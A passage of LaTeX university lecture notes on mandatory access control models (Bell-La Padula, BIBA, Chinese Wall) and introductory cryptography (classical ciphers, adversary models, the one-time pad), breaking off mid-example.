  \item The 3 security properties are \textbf{not sufficient} to ensure
        confidentiality: changes in clearance and classification can create covert
        channels, and a static system without changes is impractical.
\end{itemize}
(The ds-property can help integrity, but BLP itself gives no integrity or availability; a common
operation may need many low-level transitions.)
\end{warnbox}

\begin{goatbox}
The general must one day tell the soldier ``Attack!'', which BLP forbids (writing down). So a
person in charge can take the stamp off a paper (declassify it) --- but checking that a paper
really contains no secret is hard: deleted words hide in Word's history, black boxes in a PDF
can be lifted.
\end{goatbox}

\section{BIBA: protecting integrity}

\begin{rembox}[title=Why integrity?]
BLP focuses on confidentiality (military / government). For \textbf{commercial services}
(banking, inventory, stock exchange, land registry, grades database, contracts,
payments), preventing fraud is about \textbf{protecting integrity}: the adversary has not
influenced the result; confidentiality is either secondary or unnecessary. \\
\textbf{Integrity is key for computer security in general}: the TCB has to have high
integrity; public key cryptography requires high integrity for confidentiality.
\end{rembox}

\begin{defnbox}[title=BIBA model]
Subjects and objects have an \textbf{integrity level} (from lowest to high integrity).
Two operations: \textbf{read} (observe) and \textbf{write} (modify) (not four as in BLP:
execute is not considered). Two key (strict) rules:
\begin{itemize}
  \item \textbf{Simple integrity (no read-down)} --- protects higher integrity
        principals from being corrupted by lower integrity level data.
  \item \textbf{*-integrity (no write-up)} --- prevents lower integrity principals from
        corrupting high integrity data.
\end{itemize}
\end{defnbox}

\begin{rembox}[title=BIBA is the dual of BLP]
BLP: no read \emph{up}, no write \emph{down} (secrets must not flow down). \\
BIBA: no read \emph{down}, no write \emph{up} (dirty data must not flow up). \\
In other words: high integrity subjects can write down but cannot read from below; low integrity
subjects can read from above but cannot write up.
\end{rembox}

\begin{exbox}[title=BIBA illustrated]
\textbf{Bank}: the director can establish a rule and every employee reads it; employees
cannot rewrite rules. \textbf{Computer}: a web application open in the browser should not
write to the file system (at most \texttt{/tmp}).
\end{exbox}

\begin{goatbox}
Now the worry is dirt, not secrets. Clean goats must not drink from muddy buckets (they would get
dirty), and muddy goats must not pour into clean buckets (they would make them dirty). The boss
writes the rules, everyone reads them; nobody below rewrites them.
\end{goatbox}

\subsection{BIBA variants}

\begin{defnbox}[title=Variant 1 --- low-water-mark for subjects]
Subjects start processes at their \textbf{highest} integrity level. When accessing an
object, the subject's current level is \textbf{lowered to the lowest} of
$\text{current-level}(s)$ and $\text{level}(o)$. \\
\textbf{Temporary downgrade} for the session (e.g.\ mitigates the impact of a network
Trojan: after reading low network data, the subject can no longer write high OS data).
Hard to avoid \textbf{label creep}: subjects keep being lowered until everyone is
low and nobody can write high any more. It is similar to \textbf{sandboxing}: a process that
touched dirty data runs in a safe, low environment.
\end{defnbox}

\begin{defnbox}[title=Variant 2 --- low-water-mark for objects]
Once an object has been written to by a subject, it assumes the \textbf{lowest} level of
the object or subject (a high-integrity database written by a process with network
access is labelled ``low''). \\
\textbf{Dangerous!} It only allows integrity violation \textbf{detection}: the downgraded
object can no longer harm, but the tampering already happened. Mitigation: instead of
downgrading the real object, work on a \textbf{replica}; afterwards either sanitize and upgrade
it, or delete it.
\end{defnbox}

\begin{defnbox}[title=Invocation]
\begin{itemize}
  \item \textbf{Simple invocation} --- only allow subjects to invoke subjects with a label
        \textbf{they dominate}. $+$ protects high integrity data from misuse by low
        integrity principals; $-$ what level is the output?
  \item \textbf{Controlled invocation} --- only allow subjects to invoke subjects
        \textbf{that dominate them}. $+$ prevents corruption of high integrity data;
        $-$ hard to detect polluting information.
\end{itemize}
Invocation lets subjects act on objects of other levels while protecting them. Example: a Teller
(low) needs to write on an account (high): she invokes the Director (high), who can run checks or
deny the operation (controlled invocation: the high subject is a warden, but checking that no bad
information is written is hard). In simple invocation (high invokes low), what is the level of
the result: low like the subject that did it, or high like the one that asked?
\end{defnbox}

\begin{goatbox}
Two ways to soften the strict rules. Low-water-mark: once you drink from a muddy bucket, you are
muddy for the rest of the day (subjects), or once a muddy goat pours into a bucket, the bucket is
labelled muddy (objects: you notice the dirt, you did not prevent it). Invocation: a muddy goat
cannot touch the clean tank, but may ask the clean boss to do it, and the boss checks first.
\end{goatbox}

\subsection{Sanitization}

\begin{defnbox}[title=Sanitization]
Process of taking objects with ``\textbf{low}'' integrity and ``\textbf{lifting them}''
to ``\textbf{high}'' integrity.
\end{defnbox}

\begin{warnbox}[title=Root cause of many vulnerabilities]
``Sanitization'' problems are the root cause of large classes of real-world security
vulnerabilities: malformed ``low'' (user) input can influence ``high'' (service) data
and code.
\begin{itemize}
  \item \textbf{Web}: web server (high) accepts input from a web client (low) $\to$ SQL
        interpreter $\to$ \textbf{SQL injection}.
  \item \textbf{OS}: UNIX suid program (high) accepts input from a user (low) $\to$
        short buffer $\to$ \textbf{buffer overflow}.
\end{itemize}
\end{warnbox}

\begin{propbox}[title=Fundamental principle of sanitization (fail-safe defaults)]
\textbf{Positively verify} that ``low'' objects are within a valid set before elevating
their integrity to ``high''.
\begin{itemize}
  \item \textbf{Whitelist}: check that all properties of good objects hold (is it in the
        universe of good things? accept).
  \item \textbf{Do not blacklist}: do not just check for bad objects or properties (the
        set of bad things is large and undefined).
\end{itemize}
\end{propbox}

\begin{exbox}[title=XSS]
Insert a photo in a web album? Ensure the caption is from a restricted set of Unicode, or
``escape''/``encode'' any character not in that safe set. Do not simply check that it
does not contain \texttt{<script>}. \\
The universe of good things is well defined and small; the universe of bad things is large and
undefined, so a blacklist is never complete. And even an input that obeys the whitelist may still
carry a covert channel: these are very hard to catch.
\end{exbox}

\begin{goatbox}
Sanitization is washing a muddy thing before letting it into the clean barn. Do not wash by
looking for known kinds of mud (blacklist: tomorrow there is a new mud); accept only things that
look exactly like a clean apple (whitelist), and reshape anything else. SQL injection and buffer
overflows are dirty inputs that entered the clean barn unwashed.
\end{goatbox}

\subsection{Principles to support integrity}

\begin{defnbox}[title=Three principles to support integrity]
\begin{itemize}
  \item \textbf{Separation of duties} --- require \textbf{multiple principals} to perform
        an operation (harder for an adversary: they have to corrupt two principals).
  \item \textbf{Rotation of duties} --- allow a principal only a \textbf{limited time} on
        any particular role and limit other actions while in this role (harder for an
        adversarial insider to tamper with the system).
  \item \textbf{Secure logging} --- \textbf{tamper-evident log} to recover from integrity
        failures; consistency of the log across multiple entities is key (harder to make
        an integrity breach durable).
\end{itemize}
\end{defnbox}

\begin{exbox}[title=Examples of the three principles]
\textbf{Separation of duties} (also ``segregation'' or ``dual control''; implements separation of
privilege): an accountant records payments and stores the delivery slips, and the two must match;
both sides of a transaction keep a record (legal receipts); two officers to launch a missile;
developers should not also be operators. \\
\textbf{Rotation of duties} (fewer opportunities to tamper; each newcomer audits the previous
one): guards appointed for a single random shift at the bank safe; tellers changed over time so
that they cannot fiddle with accounts. \\
\textbf{Secure logging} (implements compromise recording; the log must resist the very principal
who could tamper with the system, so separation and rotation of duties matter for it too): the log
inside an ATM, the internal log of a cash till, notaries' records, Bitcoin.
\end{exbox}

\begin{goatbox}
To keep the books honest: make two goats do each important job (one cheater is not enough), swap
goats between jobs often (no time to set up a fraud, and the next goat notices), and keep a diary
nobody can erase.
\end{goatbox}

\section{Chinese Wall model: conflicts of interest}

\begin{rembox}[title=Inspiration]
UK rules about handling \textbf{conflicts of interest} in the financial sector: a
separation must exist at all times, even within the same firm, between people engaging
in activities that conflict with each other. Cost of failure: large fines and
reputation.
\end{rembox}

\begin{defnbox}[title=Chinese Wall model --- entities]
\begin{enumerate}
  \item All objects are associated with a \textbf{label denoting their origin}
        (``Pepsi Ltd.'', ``Coca-Cola Co.'', ``Microsoft Audit'', ``Microsoft
        Investments'').
  \item The originators define \textbf{``conflict sets''} of labels
        (\{Pepsi, Coca-Cola\}, \{Microsoft Audit, Microsoft Investments\}).
  \item Subjects are associated with a \textbf{history} of their accesses to objects,
        and in particular their labels.
\end{enumerate}
\end{defnbox}

\begin{defnbox}[title=Chinese Wall access rule]
A subject can access an object (for either read or write) if the access \textbf{does not
allow an information flow} between items with labels in the \textbf{same conflict set}.
\end{defnbox}

\begin{exbox}[title=Direct flow]
Alice accesses Pepsi files (OK), then Microsoft Invest (OK), then tries Coca-Cola:
\textbf{denied}. She has already accessed Pepsi, so an information flow between Pepsi and
Coca-Cola might happen (she could work again with Pepsi).
\end{exbox}

\begin{exbox}[title=Indirect flow]
Alice is assigned to Pepsi; Bob to Coca-Cola and IBM. Alice tries to access IBM:
\textbf{denied}. If she writes in IBM with her knowledge of Pepsi, the information
\emph{may} flow to Coca-Cola through Bob.
\end{exbox}

\begin{rembox}[title=Sanitization is necessary for business]
``Un-label'' some items as long as the information cannot lead to any conflict of
interest, e.g.\ extract some ``general market information''. As in BIBA, sanitized inputs to IBM
let Alice work with more clients, while what she learned from Pepsi never reaches Coca-Cola
(remember: sanitizing is hard).
\end{rembox}

\begin{goatbox}
A consultant goat that has seen Pepsi's secrets may never open Coca-Cola's files: the wall is
built by what you already saw. And she may not even help IBM, if a colleague of hers works for
Coca-Cola and IBM, since the secret could travel Pepsi $\to$ her $\to$ IBM $\to$ colleague $\to$
Coca-Cola.
\end{goatbox}

\begin{keybox}[title=Summary]
\begin{itemize}
  \item \textbf{Security models}: patterns to design MAC policies.
  \item \textbf{BLP}: confidentiality (no read up, no write down). Key concept:
        \textbf{declassification}.
  \item \textbf{BIBA}: integrity (no read down, no write up). Can bootstrap high
        confidentiality (PKI) or high availability (replication); can lead to low
        confidentiality or low availability. Key concept: \textbf{sanitization}.
  \item \textbf{Chinese Wall}: conflicts of interest (confidentiality \& integrity).
  \item \textbf{Multilateral security}: conflicting properties.
\end{itemize}
Why BIBA bootstraps other properties: high integrity of \textbf{public keys} is what makes a
Public Key Infrastructure give confidentiality (Lectures 5--6), and high integrity of
\textbf{logs} is what makes replication useful for availability.
\end{keybox}

\section{The big picture: every access control in one tree}

\begin{rembox}[title=How to read the tree]
Each box is a kind of access control seen in Lectures 3 and 4; a box below another one is a
\textbf{special case} or a \textbf{concrete implementation} of it, and its ``+'' lines say
\textbf{what it adds} to its parent. The first split is the question of Lecture 3: \emph{who
decides}, the owner (DAC) or a central policy (MAC)?
\end{rembox}

\noindent
\begin{forest}
  for tree={
    folder, grow'=0, draw, rounded corners=2pt, font=\footnotesize, node options={align=left},
    inner sep=2.5pt, l sep=5mm, s sep=1.6mm, fill=white, edge={thick, black!60},
  },
  % the folder layout indents each level by about 5.5 mm: shrink the boxes so their right edges align
  where level=0{text width=15.2cm}{},
  where level=1{text width=14.85cm, fill=blue!6}{},
  where level=2{text width=14.3cm}{},
  where level=3{text width=13.75cm}{},
  where level=4{text width=13.2cm}{},
  where level=5{text width=12.65cm}{},
  [{\textbf{Access control}: every (subject, object, action) must be within the policy;
    answer authorized / denied, given by a \textbf{reference monitor}}
    [{\textbf{DAC} (discretionary): the \textbf{owner} of an object sets its permissions}
      [{\textbf{Access control matrix} (Lampson): the abstract model, subjects $\times$ objects
        $\to$ rights; too big to store, so it is cut into columns or rows}
        [{\textbf{ACL}: the matrix by \textbf{columns}, stored with each object \\
          + easy ``who can access $o$?'', easy revocation per object; ambient authority}
          [{\textbf{Group-based}: ACL entries name \textbf{groups} \\
            + a subject has the \textbf{union} of all its groups; + \textbf{negative
            permissions}, checked first}
            [{\textbf{UNIX}: + only 3 classes (owner / group / other) $\times$ rwx = 9 bits, only
              \textbf{one} class checked; + root, \texttt{suid/sgid}, sticky bit, nobody}]
            [{\textbf{Windows}: + DACL of ACEs, \textbf{deny first}, finer rights; + access
              token (user, groups recursively, privileges) checked at handle creation}]
          ]
          [{\textbf{RBAC}: ACL entries name \textbf{roles} \\
            + a subject has the rights of its \textbf{one active role} (least privilege); $-$
            role explosion, separation of duty}]
        ]
        [{\textbf{Capabilities}: the matrix by \textbf{rows}, carried by each subject \\
          + portable, easy audit and delegation; + \textbf{no ambient authority} (stops confused
          deputies); $-$ revocation, transfer, authenticity}]
      ]
    ]
    [{\textbf{MAC} (mandatory): a \textbf{central policy} sets permissions, nobody overrides it
      (not even the creator); designed with \textbf{security models}}
      [{\textbf{Multilevel models}: + \textbf{security levels} (classification,
        \{categories\}) on subjects and objects, ordered by \textbf{dominance} (a lattice)}
        [{\textbf{Bell-La Padula}: \textbf{confidentiality} \\
          + no read up (ss), no write down (*), + ds-property: a \textbf{DAC matrix inside} for
          need-to-know; key concept: \textbf{declassification}}]
        [{\textbf{BIBA}: \textbf{integrity}, the \textbf{dual} of BLP \\
          + no read down, no write up; key concept: \textbf{sanitization}}
          [{\textbf{Low-water-mark (subjects)}: + a subject's current level \textbf{drops} to
            the lowest level it read (temporary, for the session)}]
          [{\textbf{Low-water-mark (objects)}: + an object \textbf{drops} to the level of the
            lowest subject that wrote it (detection only)}]
          [{\textbf{Invocation}: + subjects may invoke subjects they dominate (simple) or that
            dominate them (controlled)}]
        ]
      ]
      [{\textbf{Chinese Wall}: \textbf{conflicts of interest} (C \& I) \\
        + origin labels and \textbf{conflict sets}, + each subject's \textbf{history}: the
        rights change with what the subject has already accessed (direct and indirect flows)}]
    ]
  ]
\end{forest}

\begin{keybox}[title=Links across the branches]
\begin{itemize}
  \item \textbf{MAC needs DAC}: BLP's ds-property is an access control matrix used
        \emph{inside} the levels (need-to-know). Real systems are \textbf{hybrids} of DAC and
        MAC.
  \item \textbf{RBAC vs.\ groups}: same idea (name a set of subjects in the ACL), but one active
        role vs.\ the union of all groups.
  \item \textbf{ACL vs.\ capabilities}: same matrix, cut by columns or by rows; capabilities
        remove the ambient authority that makes confused deputies possible.
  \item \textbf{BLP vs.\ BIBA}: same lattice of levels, opposite arrows (secrets must not flow
        down; dirty data must not flow up). Chinese Wall adds \textbf{time}: what you may access
        depends on your past accesses.
\end{itemize}
\end{keybox}

\begin{goatbox}
Two families of guards. In the DAC family, each goat writes the rules for its own things; the
rules are a big table, kept either as a list on each bucket (ACL; and UNIX and Windows are two
ways of writing those lists, with clubs and hats to make them shorter) or as a keyring on each
goat (capabilities). In the MAC family, the farm writes the rules: stamps of ``how secret'' or
``how clean'' on every goat and bucket (BLP keeps secrets from going down, BIBA keeps dirt from
going up), or a memory of whom you worked for (Chinese Wall).
\end{goatbox}

\begin{recapbox}[title={Exam-ready recap --- Lecture 4: Mandatory Access Control}]
\textbf{MAC}: a central policy decides, nobody (not even the creator) overrides it. Policies are
designed from \textbf{security models} (design patterns, not policies: subjects, objects and
mechanisms are still yours to define).
\begin{itemize}
  \item \textbf{Security level} = (classification, \{categories\}); $(l_1, c_1)$
        \textbf{dominates} $(l_2, c_2)$ iff $l_1 \ge l_2$ \textbf{and} $c_2 \subseteq c_1$.
        Lattice: transitive, top and bottom, \textbf{partial} order. Subjects: clearance
        $\succeq$ current level.
  \item \textbf{BLP (confidentiality)}, rights execute / read / append / write. \textbf{ss}: no
        read up. \textbf{*}: observe $O_1$ + alter $O_2$ $\Rightarrow$ level($O_2$) dominates
        level($O_1$) = no write down (stops Trojans copying secrets down; writing up = blind
        append). \textbf{ds}: access must be in the DAC matrix (need-to-know). \textbf{Basic
        Security Theorem}: secure initial state + secure transitions $\Rightarrow$ always secure
        (induction).
  \item Limits of BLP: \textbf{covert channels} (storage: counters, metadata; timing: CPU, cache,
        queues), more with shared resources (least common mechanism); mitigate by isolation or
        noise, never below $\sim$1 bit/s $\Rightarrow$ keys in dedicated hardware.
        \textbf{Declassification} is needed (``Attack!'') but cannot be made safe (Word history,
        black boxes in PDFs). Only confidentiality, too low-level.
  \item \textbf{BIBA (integrity)}, dual of BLP: \textbf{no read down}, \textbf{no write up}.
        Variants: low-water-mark subjects (subject drops to what it read; label creep),
        low-water-mark objects (object drops to its writer; detection only; use replicas),
        simple / controlled invocation. \textbf{Sanitization} lifts low to high: root of SQL
        injection, buffer overflows, XSS; always \textbf{whitelist}.
  \item Integrity principles: \textbf{separation of duties}, \textbf{rotation of duties},
        \textbf{secure logging}.
  \item \textbf{Chinese Wall (conflicts of interest)}: origin labels, conflict sets, subject
        \textbf{history}; deny any access that allows a flow between labels of one conflict set,
        directly (Pepsi then Coca-Cola) or indirectly (via IBM and a colleague). Sanitized
        ``general market information'' is allowed.
  \item Integrity bootstraps confidentiality (PKI) and availability (replicated logs).
\end{itemize}
\textbf{How it builds on what came before}: Lecture 3 split access control by \emph{who decides};
this lecture fills the MAC branch (see the tree above). The models reuse every earlier idea:
BLP's ds-property \emph{is} a DAC access control matrix (MAC needs DAC); the Basic Security
Theorem is a \textbf{security argument} (Lecture 1) built step by step; covert channels are the
price of breaking \textbf{least common mechanism}, sanitization is \textbf{fail-safe defaults}
(whitelist), separation of duties is \textbf{separation of privilege}, secure logging is
\textbf{compromise recording} (Lecture 2). BIBA's remark that PKI needs integrity of public keys
announces the cryptography lectures.
\end{recapbox}

% =========================================================
\chapter{Lecture 5 : Applied cryptography}
% =========================================================

\begin{rembox}[title=In a nutshell]
\textbf{What is this lecture about?} How Alice can send a message to Bob so that Eve,
who sees everything on the wire, \textbf{cannot read it}. We start from broken historical
ciphers (Caesar, substitution) to learn how attackers think, define the different kinds
of attackers, see the only \emph{perfectly} secure cipher (one-time pad) and why it is
impractical, then how real systems approximate it (\textbf{stream ciphers}), and finally
how two strangers can agree on a secret key over a public channel
(\textbf{Diffie-Hellman}). \\
\textbf{Why is it useful?} Cryptography protects every HTTPS page, every VPN, every
encrypted backup and every messaging app. Understanding its basics tells you
\emph{what} a cipher guarantees (and what it does not, e.g.\ integrity), and why the
golden rule is: \textbf{never design your own crypto, use vetted standards}.
\end{rembox}

\section{Module 1 -- Introduction}

\begin{rembox}[title=Why cryptography matters]
\begin{itemize}
  \item \textbf{Data in transit} --- securing communication (e.g.\ HTTPS, VPNs).
  \item \textbf{Data at rest} --- securing stored information (e.g.\ encrypted
        backups).
\end{itemize}
Cryptography is also the building block for \textbf{integrity} (ensuring data has not
been tampered with: hashing, signatures), \textbf{authentication} (verifying identity:
protocols), \textbf{anonymity}, etc. This lecture focuses on the basics of using
cryptography for \textbf{confidentiality}.
\end{rembox}

\begin{defnbox}[title=Secure communication over an insecure channel]
The core problem: we need a way for \textbf{Alice} to send a message to \textbf{Bob},
so that \textbf{Eve} (the adversary) \textbf{cannot read it}. \\
Confidentiality for data at rest can be seen as a particular case, where
Alice $=$ Bob (you ``send'' the data to your future self).
\end{defnbox}

\begin{defnbox}[title=Encryption and decryption]
\textbf{Confidentiality}: information cannot be accessed by unauthorized parties.
\begin{itemize}
  \item \textbf{Encryption algorithm} --- cryptographic instructions that convert a
        \textbf{plaintext} message into \textbf{ciphertext}.
  \item \textbf{Decryption algorithm} --- cryptographic instructions that convert a
        ciphertext message into plaintext.
\end{itemize}
Both encryption and decryption algorithms require a \textbf{key}: encryption cannot be
reversed without the key. As functions, with plaintext $M$ (original message), key $K$
(secret value) and ciphertext $C$ (scrambled message):
\[
  C = E_K(M) \qquad\text{and}\qquad M = D_K(C).
\]
\end{defnbox}

\begin{algbox}[title=Cryptographic algorithms for confidentiality]
\begin{enumerate}
  \item Get a key $k$ shared between Alice and Bob.
  \item Alice encrypts the message: $m \to \mathrm{Enc}(k, m)$.
  \item Alice sends $\mathrm{Enc}(k, m)$ over the insecure channel.
  \item Bob decrypts: $\mathrm{Dec}(k, \mathrm{Enc}(k, m)) \to m$.
\end{enumerate}
\end{algbox}

\begin{rembox}[title=Intuition]
Think of the algorithm as a \textbf{lock design} and the key as \textbf{the key}: the
lock design is public (open design, Lecture 2 / Kerckhoffs), only the key is secret.
Step 1 (sharing the key) is the hard part, and comes back at the end of the lecture.
\end{rembox}

\begin{defnbox}[title=Invertibility (the core requirement)]
The decryption function $D_K$ \textbf{must} be the \textbf{inverse} of $E_K$:
\[
  \forall K, M,\quad D_K\big(E_K(M)\big) = M .
\]
If not, Bob cannot recover the original message $M$. \\
\textbf{Security requirement}: to provide security, these functions must also be
\textbf{hard to invert without knowing the key} $K$.
\end{defnbox}

\begin{rembox}[title=Two requirements that pull in opposite directions]
\textbf{Correctness}: \emph{with} the key, inverting is easy. \textbf{Security}:
\emph{without} the key, inverting is hard. The whole art of cryptography is to get both
at the same time.
\end{rembox}

\begin{goatbox}
Alice wants to pass a note to Bob through a crowd where Eve reads everything. She locks the note
in a box: the design of the box is public, only the key is secret. Bob has the same key and opens
it. Good boxes are easy to open with the key and impossible without it: the only way for Eve is
to try every key, and there are far too many.
\end{goatbox}

\begin{defnbox}[title=Hard to invert: the key space and brute force]
\textbf{Key space}: the set of all possible keys. \\
\textbf{Concrete meaning of ``hard to invert''}: to find the plaintext $M$, in an ideal
cryptosystem, the only viable attack for Eve must be to \textbf{try every single possible
secret key} $K$ (a \textbf{brute-force attack}). \\
\textbf{Goal}: a secure scheme forces the attacker into this situation.
\end{defnbox}

\begin{defnbox}[title=Caesar's cipher]
\begin{itemize}
  \item \textbf{Encryption}: shift each letter by a fixed number $K$.
  \item \textbf{Decryption}: shift each letter by $-K$.
  \item \textbf{Key space}: only 25 possible keys.
\end{itemize}
\end{defnbox}

\begin{exbox}[title={Caesar with $K = 3$}]
\texttt{ATTACK AT DAWN} $\xrightarrow{K=3}$ \texttt{DWWDFN DW GDZQ}
($A \to D$, $T \to W$, \ldots). \\
\textbf{Security insight}: $\log_2(25) \approx 4.6$ bits of security --- \textbf{far too
small} for real-world use (a brute force is trivial). It is still pedagogically useful to
introduce a first real attack.
\end{exbox}

\begin{defnbox}[title=Frequency analysis attack]
\begin{itemize}
  \item Eve knows that Alice wrote a long-enough message for Bob in English.
  \item She knows that the most frequent letter in English is `e'.
  \item She identifies the most frequent letter in the ciphertext: it likely corresponds
        to `e'.
  \item She then directly recovers the key (a number between 0 and 25).
\end{itemize}
\end{defnbox}

\begin{rembox}[title=Why it works]
Caesar maps every `e' to the \emph{same} ciphertext letter, so the ciphertext keeps the
\textbf{statistics} of English. Eve does not even need to try the 25 keys: one look at the
letter counts gives the shift.
\end{rembox}

\begin{defnbox}[title=Substitution cipher]
Encryption/decryption by \textbf{permuting the alphabet}: each letter is mapped to a
unique, different letter, defined by a \textbf{permutation} of the 26 letters (the key).
\begin{center}
\texttt{ABCDEFGHIJKLMNOPQRSTUVWXYZ} \\
\texttt{HOWBUGIACRYEVZXPJQMSNTFDKL}
\end{center}
(e.g.\ \texttt{hello world} $\to$ \texttt{aueex fxqeb}.)
\textbf{Key space}: $26! \approx 4.03 \times 10^{26}$ possible keys, i.e.\
$\log_2(26!) \approx 88.4$ bits of security?
\end{defnbox}

\begin{warnbox}[title={The flaw, again}]
This key space looks big enough, but the cipher is \textbf{still easily broken} by the
same frequency analysis. \textbf{Vulnerability}: the cipher \textbf{preserves the
statistical properties} of the plaintext language (e.g.\ single-letter frequencies). With
a long enough ciphertext, statistical analysis breaks the cipher, rendering the full $26!$
key space \textbf{irrelevant}. \\
E.g.\ on the whole Harry Potter series encrypted with one key, Eve guesses the most
likely letter mappings, uses a dictionary to rule out keys that give non-English text,
and finds $K$ in a few tries.
\end{warnbox}

\begin{rembox}[title=Goal of the adversary]
Eve does not necessarily need the \emph{full} key: depending on the scenario, recovering
part of it (the mapping of some letters) may be enough. Sometimes the goal is even
smaller: Eve may only want to know whether Alice sent ``Yes'' or ``No''.
\end{rembox}

\begin{keybox}[title=Lesson]
A \textbf{big key space is necessary but not sufficient}. Security is about the
\emph{best} attack, not only brute force.
\end{keybox}

\begin{defnbox}[title=Bits of security]
\textbf{Goal}: an $N$-bit key should offer security as close to $N$ bits as possible,
i.e.\ require $2^N$ attempts. \\
\textbf{The break}: if a 1024-bit key is broken with only $2^{40}$ attempts (40 bits of
security), the algorithm is considered \textbf{broken}. \\
\textbf{Caesar lesson}: the 25-key space was cleverly reduced to \textbf{1 possibility};
similarly the $\approx 88$ bits of the substitution cipher were reduced to a few tries.
\end{defnbox}

\begin{rembox}[title=Orders of magnitude]
Each extra bit \textbf{doubles} the work. $2^{40} \approx 10^{12}$ operations is easy for
a laptop; $2^{128}$ is far beyond all computers on Earth for billions of years. ``Broken''
does not mean ``practically decrypted today'', it means \textbf{faster than brute
force}.
\end{rembox}

\begin{goatbox}
Caesar moves every letter three steps; the substitution cipher swaps letters by a secret table.
Both keep the \emph{shape} of the language: the most common hidden letter is still `e' in
disguise. Eve does not try all the keys, she counts letters. A huge number of keys is useless if
the box leaks such hints. ``Bits of security'' counts the work of the \emph{best} attack, not the
number of keys.
\end{goatbox}

\section{Module 2 -- Adversaries in cryptography}

\begin{rembox}[title=Back to threat models]
As in Lecture 1, security is always measured \textbf{relative to the power of the
adversary}. Against Caesar and substitution, Eve's capabilities were very limited: she
observed a long-enough ciphertext of English text (and had some compute power to test a
few keys). This is not the only possible adversary model.
\end{rembox}

\begin{defnbox}[title=Types of adversaries]
\begin{itemize}
  \item \textbf{Passive eavesdropper} --- Eve can only \emph{read} the ciphertext.
  \item \textbf{Active attacker} --- Eve can somehow \textbf{influence the system},
        e.g.\ convince Alice to send Bob specific messages, observe the precise time
        Bob takes to run his algorithm, look at Bob's screen for two minutes, etc.: anything
        that goes beyond just observing communication.
\end{itemize}
\end{defnbox}

\begin{defnbox}[title=Known Plaintext Attack (KPA)]
\textbf{Scenario}: Eve is given access to multiple pairs $(M, C)$ of messages and their
corresponding ciphertexts, all encrypted with the secret key $K$. \\
\textbf{Goal}: from these pairs, guess the key $K$ to decrypt other messages.
\end{defnbox}

\begin{propbox}[title=Why is KPA a realistic model?]
\begin{itemize}
  \item \textbf{Standard headers} --- many encrypted messages contain predictable parts
        (``From:'', timestamps, packet destinations, \ldots): encryption is very often used on
        structured data, e.g.\ a whole network packet with an explicit destination.
  \item \textbf{Malicious guessing} --- if Eve guesses a message (or part of it) and
        observes its encryption, she has an $(M, C)$ pair.
\end{itemize}
\end{propbox}

\begin{exbox}[title=KPA and the substitution cipher]
Under KPA the substitution cipher becomes \textbf{even more broken}: if Eve knows that
$M = $ \texttt{THE QUICK BROWN FOX}, she immediately recovers the mapping of many
letters, drastically reducing the key space without any statistical analysis. When Alice later
reuses $K$, a large part of the key has already leaked, and with a dictionary Eve finishes in a
few tries.
\end{exbox}

\begin{defnbox}[title=Chosen Plaintext Attack (CPA)]
\textbf{Scenario}: Eve can convince Alice (or the system) to encrypt \textbf{arbitrary
messages chosen by Eve} with the secret key. \\
\textbf{More abstractly}: for any chosen plaintext $m$, Eve gets $E_K(m)$. We say that
Eve has access to an \textbf{encryption oracle}.
\end{defnbox}

\begin{rembox}[title=KPA vs.\ CPA]
In KPA, Eve does not choose which pairs she sees; in CPA she \emph{chooses} $m$ and gets
$(m, \mathrm{Enc}(k, m))$. Hence CPA is a \textbf{strictly stronger} model than KPA:
\[
  \text{passive (ciphertext only)} \;<\; \text{KPA} \;<\; \text{CPA}.
\]
A scheme secure against a stronger adversary is also secure against the weaker ones.
\end{rembox}

\begin{propbox}[title=Why is CPA a realistic model?]
\begin{itemize}
  \item \textbf{Messaging app} --- with a few minutes of access to Alice's phone
        (Signal, WhatsApp), Eve can send \emph{any} data she chooses to Bob and obtain an
        $(M, C)$ pair.
  \item \textbf{Encryption API} --- Eve interacts with an endpoint where she provides
        data and receives the encrypted output.
\end{itemize}
\end{propbox}

\begin{exbox}[title=CPA and the substitution cipher]
The substitution cipher is \textbf{completely broken} by a CPA: Eve asks for the
encryption of $M = $ \texttt{abcdefghijklmnopqrstuvwxyz}; the ciphertext \emph{is} the
entire key (the full permutation), in just \textbf{one} query!
\end{exbox}

\begin{defnbox}[title=Side-channel attacks]
Eve not only accesses an ideal oracle, but also \textbf{measures physical
characteristics of the actual implementation} while it encrypts/decrypts.
\begin{itemize}
  \item \textbf{Timing attack} --- Eve measures \textbf{how long} it takes to encrypt a
        given message or decrypt a ciphertext.
  \item \textbf{Power analysis} --- Eve observes the \textbf{energy consumed} by the
        device (e.g.\ a credit card) doing the crypto.
\end{itemize}
\end{defnbox}

\begin{propbox}[title=Why are side channels realistic?]
\begin{itemize}
  \item \textbf{Malicious ownership} --- you often own a device (phone, smart card,
        embedded chip) holding keys of \emph{another} principal (Google, your bank) that
        are meant to be unreadable to you.
  \item \textbf{DRM} --- the decryption key of a movie/song is embedded in your media
        player or console; by measuring power or timing, an attacker could extract it.
\end{itemize}
\end{propbox}

\begin{rembox}[title=Algorithm vs.\ implementation]
A mathematically perfect cipher can still leak through its \textbf{implementation}
(e.g.\ code that takes longer when a key bit is 1). Side channels attack the code and
the hardware, not the math --- a reminder that security is about the whole system. As
always, new adversary models can be defined, but always as a \textbf{strategic adversary
with limited, well-defined resources}.
\end{rembox}

\begin{goatbox}
How strong Eve is decides how strong the box must be. A passive Eve only reads locked notes. A KPA
Eve also knows some notes and their locked version (``every note starts with `Dear Bob' ''). A
CPA Eve can make Alice lock any note Eve writes. A side-channel Eve listens to the lock's
clicks or watches how long Bob takes to open it. A box safe against the strongest Eve is safe
against the weaker ones.
\end{goatbox}

\section{Module 3 -- Perfect secrecy and the one-time pad}

\begin{rembox}[title={Reminder: XOR ($\oplus$)}]
\begin{center}
\begin{tabular}{cc|c}
$a$ & $b$ & $a \oplus b$ \\ \hline
0 & 0 & 0 \\ 0 & 1 & 1 \\ 1 & 0 & 1 \\ 1 & 1 & 0
\end{tabular}
\end{center}
Key properties: $a \oplus a = 0$, $a \oplus 0 = a$, hence $a \oplus b \oplus b = a$
(XOR-ing twice with the same value cancels out). XOR with a random bit flips the input
bit with probability $1/2$: the output is itself random.
\end{rembox}

\begin{defnbox}[title=One-Time Pad (OTP)]
How to remove frequency analysis? Make sure that letters are \textbf{not} encrypted to
the same values. \\
\textbf{Key}: a string $k$ of \textbf{random} bits, \textbf{as long as the message},
pre-shared between Alice and Bob.
\[
  \mathrm{Enc}(k, m) = m \oplus k \qquad\qquad \mathrm{Dec}(k, c) = c \oplus k
\]
Decryption works because $(m \oplus k) \oplus k = m$.
\end{defnbox}

\begin{exbox}[title=OTP on ``YEAH'']
\begin{tabular}{ll}
